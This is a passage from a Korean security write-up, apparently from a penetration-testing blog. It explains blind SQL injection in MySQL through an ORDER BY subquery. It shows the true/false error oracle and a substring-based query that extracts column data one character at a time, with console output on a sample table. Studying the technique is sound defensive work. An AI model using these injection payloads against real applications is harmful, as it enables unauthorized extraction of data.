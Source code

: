 이를 잘 이용하면 Blind SQL Injection이 가능하며, 참과 거짓을 판단하기 위한 기본적인 쿼리는 아래와 같다.

#True 결과값
order by 내 서브 쿼리가 true가 되면 다중 쿼리를 출력하게 되므로, 해당 order by절은 에러를 발생하게 된다.

```SQL
mysql> select * from one order by (select name from one where 1=1);
ERROR 1242 (21000): Subquery returns more than 1 row

mysql> select name from one where 1=1;
+------+
| name |
+------+
| park |
| kim  |
| hong |
| park |
| park |
+------+
```

#False 결과값 리턴 (mysql에서 empty는 단일행으로 취급)
order by 내 서브 쿼리가 false가 되면 단일 쿼리를 출력하게 되므로, 해당 order by 절은 정상적으로 출력하게 된다.

```SQL
mysql> select * from one order by (select name from one where 1=2);
+------+---------+
| name | id      |
+------+---------+
| park | persu   |
| kim  | chinnie |
| hong | nisam   |
| park | chang   |
| park | hyun    |
+------+---------+

mysql> select name from one where 1=2;
Empty set (0.00 sec)
```

3.3 Blind SQL Injection으로 데이터 추출

점검 시 컬럼명, 테이블명을 알고 있는 상태여서 컬럼 내 데이터만 추출하면 되는 상황이었다.
사용한 쿼리는 아래와 같다.

```
mysql> select * from one order by (select 1 from one where (substring((select name from one limit 1),1,1)='a'));
+------+---------+
| name | id      |
+------+---------+
| park | persu   |
| kim  | chinnie |
| hong | nisam   |
| park | chang   |
| park | hyun    |
+------+---------+

mysql> select * from one order by (select 1 from one where (substring((select name from one limit 1),1,1)='p'));
ERROR 1242 (21000): Subquery returns more than 1 row
```
